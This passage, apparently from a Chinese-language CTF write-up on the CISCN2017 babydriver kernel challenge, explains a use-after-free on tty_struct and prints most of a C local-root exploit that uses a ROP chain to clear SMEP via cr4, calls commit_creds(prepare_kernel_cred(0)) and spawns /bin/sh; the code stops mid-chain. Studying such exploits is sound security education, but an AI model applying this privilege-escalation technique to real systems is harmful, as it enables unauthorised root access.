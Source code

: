 那么我们就可以通过不同的操作（如 `write, ioctl` 等）来跳转到不同的 evil 了。

对这道题目而言，因为开启了 smep 保护，因此如果想 ret2usr 提权，需要修改 cr4 的值，而控制函数指针是不够的，可以控制函数指针进行 stack pivot 等操作到我们排布 rop 链的空间，通过 rop 关闭 smep，进而进行后续操作。

> 这道题目没给 vmlinux，需要使用 [extract-vmlinux](https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux) 解压内核镜像。

关闭 smep 保护后，就可以通过 rop 来为所欲为了，最终的 [exp](https://github.com/bash-c/pwn_repo/blob/master/CISCN2017_babydriver/uaf_tty_struct.c) 如下:
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

#define prepare_kernel_cred_addr 0xffffffff810a1810
#define commit_creds_addr 0xffffffff810a1420

void* fake_tty_operations[30];

size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
	__asm__("mov user_cs, cs;"
			"mov user_ss, ss;"
			"mov user_sp, rsp;"
			"pushf;"
			"pop user_rflags;"
			);
	puts("[*]status has been saved.");
}


void get_shell()
{
    system("/bin/sh");
}

void get_root()
{
    char* (*pkc)(int) = prepare_kernel_cred_addr;
    void (*cc)(char*) = commit_creds_addr;
    (*cc)((*pkc)(0));
}
int main()
{
    save_status();

	int i = 0;
    size_t rop[32] = {0};
    rop[i++] = 0xffffffff810d238d;		// pop rdi; ret;
    rop[i++] = 0x6f0;
    rop[i++] = 0xffffffff81004d80;		// mov cr4, rdi; pop rbp; ret;
    rop[i++] = 0;
    rop[i++] = (size_t)get_root;
    rop[i++] = 0xffffffff81063694;		// swapgs; pop rbp; ret;
    rop[i++] = 0;
    rop[i++] = 0xffffffff814e35ef;		// iretq; ret;
    rop[i++] = (size_t)get_shell;
    rop[i++] = user_cs;                /* saved CS */
    rop[i++] = user_rflags;            /* saved EFLAGS */
```